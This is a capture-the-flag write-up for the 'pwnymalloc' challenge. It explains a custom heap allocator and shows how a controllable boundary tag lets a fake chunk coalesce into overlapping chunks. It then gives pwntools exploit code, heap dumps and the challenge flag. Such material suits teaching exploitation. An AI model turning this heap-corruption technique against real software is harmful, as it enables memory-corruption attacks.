

# pwnymalloc (pwn, 461 points, 65 solves)

## Description



Files: [alloc.c](files/alloc.c) [alloc.h](files/alloc.h) [main.c](files/main.c) [Makefile](files/Makefile) [chal](files/chal)

## Overview

We are given 5 files: 3 source files, the `Makefile` to build the binary and the binary that will be run remotely.

The service is a simple command line application to "handle" complaints and refunds. We can submit a complaint, view the submitted complaints (which is not actually implemented), request a refund and check the refund status.

### Reversing the application

This is pretty easy, since we are given the sources.

`handle_compliant` should save our complaints, but actually reads it in a fixed size allocated buffer and immediately deletes (frees) it, mocking us with a sarcastic message.

`handle_refund_request` is used to save our refund requests. The requests are stored in the heap, in fixed size structures, while the pointers to those structures are stored in a global array with a fixed max size (which is properly checked). The refund structure is:
```c
typedef struct refund_request {
    refund_status_t status;  // either DENIED (default) or APPROVED
    int amount;  // user provided requested refund amount
    char reason[0x80];  // user provided requested refund reason
} refund_request_t;
```

`handle_refund_status` takes a refund request and checks if its status is `APPROVED`. If it is, it prints the flag by calling `print_flag`, otherwise, it prints a message saying that the request has been denied.


### Custom allocator

This is a pretty simple application, but it doesn't seem vulnerable, it creates refund requests with status `DENIED` and we have to modify it to `APRROVED` to get the flag, but there are no ways to do it. Furthermore, there are no obvious vulnerability to overwrite that field or ways to corrupt the heap and achieve the same result. But there is a catch, the allocator is not the standard glibc one, it is a custom one defined in the `alloc.c` file, so the vulnerability must be in the allocator implementation.

It is time to understand how this allocator works and how we can attack it.

In the beginning of `alloc.c` we can see useful declarations to get a high level understanding on how this heap works.

`chunk_meta_t` is the chunk metadata, pretty similar to the libc one:
```c
typedef struct chunk_meta {
    size_t size;
    struct chunk_meta *next; // only for free blocks
    struct chunk_meta *prev; // only for free blocks
} chunk_meta_t;
```
There is a `btag` which I suppose stands for backward tag, which contains only a size, maybe is the same concept of the libc's `prev_size` field. Macros are pretty much self-explanatory and finally we have the global variables. Those are also self-explanatory, but tell us that the algorithm saves the heap border and, most importantly, that we have a freelist (`static chunk_ptr free_list = NULL;`), so, like libc's allocator, free chunks are stored in a double linked list (we know it is double linked thanks to the `chunk_meta` definition).

Let's look at the malloc (`pwnymalloc`). The needed size for a chunk is the requested size, plus the space required for the size metadata (again, just like libc's chunks). We don't have fancy optimizations like tcache or fastbins, all the chunks are stored in a global linked list. So we first iterate the freelist to see if we have a chunk big enough to satisfy the request, if we don't, we simply enlarge the heap with the `sbrk` syscall, set the chunk size and `INUSE` flag in the metadata, and return the old `heap_end` value (plus the metadata offset), which will now contains the new chunk. If we find a suitable chunk, we use it and we also try to split it to optimize for space. We don't need to worry about the split mechanism, since it is not needed for the exploit, but it is pretty much identical to the libc's one (at least for the high level logic, even if it is much simpler).

Moving on to the free (`pwnyfree`) function. The "lucky" thing is that there are pretty much no checks whatsoever, we just check if the address alignment is correct and if the chunk is marked as `INUSE`. To free the chunk, we set it as `FREE` in the metadata, and set the `btag`. The `btag` is the size of the chunk, but placed at the end of the chunk itself; it is used effectively as libc `prev_size` for consolidating chunks. Finally we call `coalesce` on the freed chunk to try to merge it with adjacent free chunks. The `coalesce` function gets the previous and next chunk and if they are free it merges them with the just-freed chunk.


### Vulnerability

The vulnerability is in the `btag`. It is not considered in the size of the chunk and there is no way to check if the previous chunk is free without looking at the `btag` itself, thus one chunk can control its `btag` and misalign the heap. With this in mind, you can consolidate a chunk with a carefully placed fake chunk and obtain overlapping chunks. From there it is trivial to set a refund status to `ACCEPTED` and get the flag.


### Exploit

The idea is to create two chunks: the first will contain a fake chunk metadata, the second one will have the `btag` set in order to make the next chunk to consolidate with the fake chunk. Then we will call the `handle_complaint` function, which will alloc and free a chunk, triggering the consolidation with the fake chunk. The fake chunk will overlap the second chunk which can get the `status` overwritten.

We first define two helper functions:
```python
def alloc(amt, buf):
    r.sendlineafter(b"> ", b"3")
    r.sendlineafter(b"\n", b"%d" % amt)
    r.sendafter(b"\n", buf)

def comply(buf):
    r.sendlineafter(b"> ", b"1")
    r.sendlineafter(b"\n", buf)
```

Then we create the two fake chunks:
```python
# 0x90 - 0x40 is the size needed to avoid calling `split` when we will allocate the overlapping refund request
# The reason is that `split` will call consolidate on a part of heap which is not initialized and will crash
# We can try to fix the heap to make it work with other sizes, but this is the easiest things to do
fake_chunk =
    p64(0x90 - 0x50) # size | FREE (0)
    + p64(0x0) * 2   # next, prev set to NULL to avoid troubles with the `free_list`
chunk1 = b"A" * 0x60 + fake_chunk
fake_btag = p64(0xb0)
chunk2 = b"A" * 0x78 + fake_btag
alloc(0x1337, chunk1 + b"\n")
alloc(0x1338, chunk2[:-1])
```

This will create the following heap layout:
```
0x555555559000: 0x0000000000000091      0x0000133700000000  chunk1
0x555555559010: 0x4141414141414141      0x4141414141414141
0x555555559020: 0x4141414141414141      0x4141414141414141
0x555555559030: 0x4141414141414141      0x4141414141414141
0x555555559040: 0x4141414141414141      0x4141414141414141
0x555555559050: 0x4141414141414141      0x4141414141414141
0x555555559060: 0x4141414141414141      0x4141414141414141
0x555555559070: 0x0000000000000040      0x0000000000000000  fake chunk
0x555555559080: 0x0000000000000000      0x000000000000000a
0x555555559090: 0x0000000000000091      0x0000133800000000  chunk2
0x5555555590a0: 0x4141414141414141      0x4141414141414141
0x5555555590b0: 0x4141414141414141      0x4141414141414141
0x5555555590c0: 0x4141414141414141      0x4141414141414141
0x5555555590d0: 0x4141414141414141      0x4141414141414141
0x5555555590e0: 0x4141414141414141      0x4141414141414141
0x5555555590f0: 0x4141414141414141      0x4141414141414141
0x555555559100: 0x4141414141414141      0x4141414141414141
0x555555559110: 0x4141414141414141      0x00000000000000b0  fake btag
0x555555559120: 0x0000000000000000      0x0000000000000000  heap_end (next chunk will start here)
```

Then we create a random complaint to call alloc and free:
```python
comply(b"AAAA")
```
After this, the heap will look like this:
```
0x555555559000: 0x0000000000000091      0x0000133700000000  chunk1
0x555555559010: 0x4141414141414141      0x4141414141414141
0x555555559020: 0x4141414141414141      0x4141414141414141
0x555555559030: 0x4141414141414141      0x4141414141414141
0x555555559040: 0x4141414141414141      0x4141414141414141
0x555555559050: 0x4141414141414141      0x4141414141414141
0x555555559060: 0x4141414141414141      0x4141414141414141
0x555555559070: 0x0000000000000090      0x0000000000000000  fake chunk / free list head
0x555555559080: 0x0000000000000000      0x000000000000000a
0x555555559090: 0x0000000000000091      0x0000133800000000  chunk 2
0x5555555590a0: 0x4141414141414141      0x4141414141414141
0x5555555590b0: 0x4141414141414141      0x4141414141414141
0x5555555590c0: 0x4141414141414141      0x4141414141414141
0x5555555590d0: 0x4141414141414141      0x4141414141414141
0x5555555590e0: 0x4141414141414141      0x4141414141414141
0x5555555590f0: 0x4141414141414141      0x0000000000000090
0x555555559100: 0x4141414141414141      0x4141414141414141
0x555555559110: 0x4141414141414141      0x00000000000000b0
0x555555559120: 0x0000000000000050      0x0000000000000000  free complaint
0x555555559130: 0x0000000000000000      0x0000000000000000
0x555555559140: 0x0000000000000000      0x0000000000000000
0x555555559150: 0x0000000000000000      0x0000000000000000
0x555555559160: 0x0000000000000000      0x0000000000000050
0x555555559170: 0x0000000000000000      0x0000000000000000  heap_end
```
We can confirm that the exploit worked by printing the value of `free_list`
```
> p free_list
$3 = (chunk_ptr) 0x555555559070
```
Which is exactly the address of the fake chunk.

Now we just have to create a new refund request to overwrite the `status` of the second request.
```python
ACCEPTED = 1
status_and_value = p64(ACCEPTED | (0x1339 << 32))
overlapping_chunk = b"A" * 0x18 + status_and_value
alloc(0x1339, overlapping_chunk + b"\n")
```

And finally call `handle_refund_status`, asking for the second chunk:
```python
r.sendlineafter(b"> ", b"4")
r.sendlineafter(b"\n", b"1")
```
which will print the flag.

[full exploit](exploit.py)


### Flag

`uiuctf{the_memory_train_went_off_the_tracks}`
